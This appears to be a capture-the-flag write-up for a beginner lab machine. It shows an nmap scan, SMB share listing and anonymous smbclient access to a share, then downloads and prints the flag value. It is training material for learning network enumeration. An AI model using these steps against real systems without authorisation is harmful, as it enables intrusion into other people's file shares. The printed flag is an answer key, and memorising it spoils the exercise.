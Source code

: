 # Dancing Write-Up

Very easy

Tags: 
`External`
`Enumeration`
`SMB`

## Intro

Use SMB to connect with the machine

## Exploit

### 1. Scan the target's port

```
nmap -sV <target IP>
```
```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-04-25 03:38 EDT
Nmap scan report for 10.129.1.12
Host is up (0.20s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.43 seconds
```

### 2. Connect to the target via smb

List shares on the target
```
smbclient -L <target IP>
```
```
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
SMB1 disabled -- no workgroup available
```

Connect to a valid share
```
smbclient //10.129.1.12/WorkShares -L
```
```
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> 
```

### 3. Get flag
```
smb: \> dir
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

                5114111 blocks of size 4096. 1751324 blocks available
smb: \> cd James.P
smb: \James.P\> dir
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

                5114111 blocks of size 4096. 1751324 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

Open flag.txt from local directory
```
ls
Desktop  Documents  Downloads  flag.txt  Music  Pictures  Public  Templates  Tools  Videos
```
```
cat flag.txt
5f61c10dffbc77a704d76016a22f1664
```
